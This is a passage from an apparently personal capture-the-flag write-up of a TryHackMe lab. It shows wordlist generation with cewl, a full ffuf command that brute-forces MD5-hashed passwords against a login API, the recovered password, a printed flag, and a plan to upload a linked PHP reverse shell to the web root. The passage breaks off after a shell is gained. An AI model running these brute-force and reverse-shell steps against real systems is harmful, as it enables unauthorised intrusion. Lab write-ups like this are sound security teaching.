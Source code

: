 wordlist:
```sh
./cewl.rb  -w customwordlist.txt  http://10.10.123.176/
```

Using mentalist to create a wordlist with our required specifications:

![](/assets/img/thm/yotp/5.png)

using https://www.miraclesalad.com/webtools/md5.php for generating md5 hashes.

![](/assets/img/thm/yotp/6.png)

lets use a dictionary attack mode now :P

We'll use ffuf to bruteforce as we can't pass custom headers to hydra, ignoring response size 63. I have also ignored 500 bcoz they didn't work and were again multiple.

```sh
ffuf -w hashlist.txt -H "Accept: application/json" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.123.176/api/login -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.115 Safari/537.36" -fs 63
```

![](/assets/img/thm/yotp/7.png)

finding that hash in hashlist and then comparing it to passlist, the password is `savoia21! `
Finally


Hmm, Trying the same  password for ssh and so we obtained a shell into the machine. :O

-------------
## Flag 1

![](/assets/img/thm/yotp/8.png)

```
THM{MDg0MGVjYzFjY2ZkZGMzMWY1NGZiNjhl}
```

-------------
## Privilege Escalation - curtis

`commands.php`:
hehe, I just feel lucky to not have wasted time on it xD. 
![](/assets/img/thm/yotp/9.png)

hmm so we can use ssh but F I did  a password reset by mistake on `curtis`. restarting the server. :P we can upload a reverse shell in `/var/www/html` and get the database. 

Using this infamous php reverse shell: [Github Link](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

So after gaining a shell as www-data:
